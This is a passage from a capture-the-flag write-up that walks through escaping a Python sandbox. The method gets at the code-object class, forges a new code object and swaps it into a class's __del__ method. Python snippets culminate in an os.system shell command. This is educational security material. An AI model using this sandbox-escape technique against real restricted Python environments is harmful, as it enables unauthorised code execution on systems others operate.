 A possible exploitation scenario (intended one):
1. Navigate to a function's `__code__` object, navigate to it's `__class__` attribute.
2. Save the `__class__` attribute. Now we have a callable `code` class.
3. Instantiate a new `code` object, saving it in `copy`.
4. Navigate back to self -> `__class__` -> `__del__`
5. Set the `__code__` attribute for the `__del__` to your new function code, saved in `copy`.

And now you have a code execution! However, we still have more fun.

If we try to construct our own function locally, we can easly dump the required parameters for it's code class as the following, we can also setup a small test class to try things out:

```python
class A:
    def __del__(s): pass

def f(x):
    print("Hello!")
x = (f.__code__.co_argcount, f.__code__.co_posonlyargcount, f.__code__.co_kwonlyargcount, f.__code__.co_nlocals, f.__code__.co_stacksize, f.__code__.co_flags, f.__code__.co_code, f.__code__.co_consts, f.__code__.co_names, f.__code__.co_varnames, f.__code__.co_filename, f.__code__.co_name, f.__code__.co_firstlineno, f.__code__.co_linetable, f.__code__.co_freevars, f.__code__.co_cellvars)
print(x)

a = A()
A.__del__.__code__ = f.__code__
```

Running the above script will result in this:

<p align="center">
    <img src="/2023/NCSC/img/3.png"><br/>
</p>

It works! so far...

How about we try to construct a useful function? Like, opening a shell? We need a shell since the flag name is random.

```python
def f(x):
    import os
    os.system('id')
```

We get the following if we use that:

<p align="center">
    <img src="/2023/NCSC/img/4.png"><br/>
</p>
